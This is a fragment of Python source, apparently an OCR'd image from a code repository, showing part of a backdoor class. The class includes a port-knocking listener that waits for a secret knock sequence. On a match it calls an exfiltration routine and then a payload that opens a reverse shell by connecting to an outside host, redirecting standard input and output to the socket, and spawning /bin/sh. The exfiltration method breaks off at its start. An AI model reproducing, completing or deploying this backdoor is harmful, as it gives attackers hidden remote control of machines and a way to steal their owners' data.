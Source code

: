 ```python
            ports = [server.server_address[1] for server in self.servers]
            print('Backdoor Listening ports: {} {} {}'.format(*ports))
            return True
        except Exception as e:
            print(e)
            return False

    def waitInterrupt(self):
        try:
            global listen_knock
            while 1:
                time.sleep(1)
                # wait sequence
                i = 0
                n = time.time()
                l = len(self.knock_seq)
                for ping in listen_knock:
                    if ping['d'] < (n - 5):  # wait 5s for receive sequence
                        listen_knock.pop(i)
                    # detect the first sequence
                    if ping['p'] == self.knock_seq[0]:
                        if (i + l) <= len(listen_knock):
                            tl = [ping['p']]
                            for k in range(1, len(self.knock_seq)):
                                tl.append(listen_knock[i + k]['p'])

                            if set(self.knock_seq) == set(tl):
                                listen_knock.clear()
                                self.exfiltration()
                                self.payload()
                                break

                    i += 1

        except KeyboardInterrupt:
            print()  # Jumps ^C char
            self.stop()

    def stop(self):
        try:
            if self.status == 'up':
                for server in self.servers:
                    print('Shutdown {}'.format(server.server_address[1]))
                    server.shutdown()
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False

    def payload(self):
        try:
            print('REVERSESHELL: ' + self.revsh_host + ':' + str(self.revsh_port))
            s = socket.socket()
            s.connect((self.revsh_host, self.revsh_port))
            [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
            pty.spawn("/bin/sh")
        except Exception as e:
            return False

    def exfiltration(self):
        try:
```